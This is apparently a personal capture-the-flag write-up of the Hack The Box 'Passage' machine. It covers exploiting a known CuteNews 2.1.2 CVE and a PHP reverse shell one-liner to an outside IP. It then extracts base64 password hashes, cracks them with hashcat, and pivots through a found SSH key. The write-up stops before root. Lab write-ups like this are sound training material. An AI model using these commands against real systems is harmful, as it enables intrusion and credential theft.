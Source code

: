 ```yaml
---
description: https://app.hackthebox.com/machines/Passage
---
```


# 🚒 Passage

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 2 TCP ports open:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the web page we see the follwoing information ->

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fail 2 ban is an anti brute force software:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So basically with a gobuster I got my IP banned so i'm going to be cautious when it comes to finding subdirectories

through enumeration, i find that it's CuteNews 2.1.2 running with a known CVE ->

{% embed url="https://www.exploit-db.com/exploits/48800" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very straightforward CVE

We see some PHP files&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So with a quick PHP reverse shell ->

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We get a more stable shell

after enumerating a bit, we find where is stored the flat files that are used by cuteCMS as a "database"

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

so we see this is base64 encoded:

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

After looking up a write-up to see how a pro would go quick to go through all of this, i found this crazy one-liner that got me thinking i should start learning those:

```
for f in *; do cat $f | grep -v 'php die'; echo; done | grep . | while read line; do echo $line | base64 -d; echo; done | grep '"pass"'
```

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

**explanation:**

1.  **Loop Over Files**:

    ```sh
    for f in *; do
    ```

    This loop iterates over all files in the current directory (using `*` to match all filenames).
2.  **Process Each File**:

    ```sh
    cat $f | grep -v 'php die'; echo;
    ```

    For each file, it:

    * Uses `cat $f` to read the content of the file.
    * Pipes the content to `grep -v 'php die'`, which filters out any lines containing the string `'php die'`.
    * Uses `echo` to add a newline after processing each file.
3.  **Concatenate and Filter Non-Empty Lines**:

    ```sh
    done | grep . |
    ```

    After processing all files, `done` ends the loop. The output is then piped to `grep .`, which filters out any empty lines (only lines containing at least one character are kept).
4.  **Read and Decode Each Line**:

    ```sh
    while read line; do echo $line | base64 -d; echo; done |
    ```

    This `while` loop reads each non-empty line:

    * `read line` reads a line into the variable `line`.
    * `echo $line | base64 -d` decodes the line from base64 encoding.
    * `echo` adds a newline after each decoded line.

Since we looked at the home directory and saw a paul user, we could guess that this user is the pivoting path, so i added a grep "paul" to the oneliner as a part of contribution

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

took this hash and looked it up and saw it was mode 1400 on hashcat ->

```
hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

I could not change user with my low interaction shell so i did a tty upgrade ->

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

and we connect&#x20;

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We quickly find an ssh authorization key:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We copy the id\_rsa key and connect to nadav user ->

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We'll get root tomorrow&#x20;
